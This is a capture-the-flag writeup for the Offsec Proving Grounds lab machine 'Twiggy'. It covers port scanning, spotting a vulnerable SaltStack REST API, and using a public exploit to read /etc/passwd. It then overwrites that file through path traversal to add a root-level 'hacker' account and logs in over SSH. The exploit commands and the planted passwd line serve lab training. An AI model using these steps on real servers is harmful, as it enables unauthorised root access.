 ```yaml
---
title: "Proving grounds Practice: Twiggy"
layout: post
date: 2023-08-27 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
```

## Web
### PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Twiggy/twiggy.png)

### PORT: 8000

![img](/assets/images/CTF/Proving_Grounds/Twiggy/8000.png)

The SaltStack Salt REST API is running.

![img](/assets/images/CTF/Proving_Grounds/Twiggy/salt.png)

SaltStack is vulnerable to [Saltstack 3000.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48421)

## Exploitation

```sh
python exploit.py --master 192.168.174.62 --read /etc/passwd
```

![img](/assets/images/CTF/Proving_Grounds/Twiggy/read.png)

unable to obtain reverse shell using the `--exec` command in the exploit but we will be able to create and add our own new user account to the `/etc/passwd` file.

### Create new user

```sh
openssl passwd hacked
$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1
```

`hacked` is the password.

Add the following to the `/etc/passwd` content we have extracted from the attacking machine.

```text
hacker:$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1:0:0:root:/root:/bin/bash
```

**Writing /etc/passwd file**

```sh
python exploit.py --master 192.168.174.62 --upload-src passwd --upload-dest ../../../../../../../../../../etc/passwd
```

![img](/assets/images/CTF/Proving_Grounds/Twiggy/write.png)

**Verify the user existence**

![img](/assets/images/CTF/Proving_Grounds/Twiggy/verify.png)

SSH to the attacking machine using the username as `hacker` and password `hacked`.

![img](/assets/images/CTF/Proving_Grounds/Twiggy/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr). 
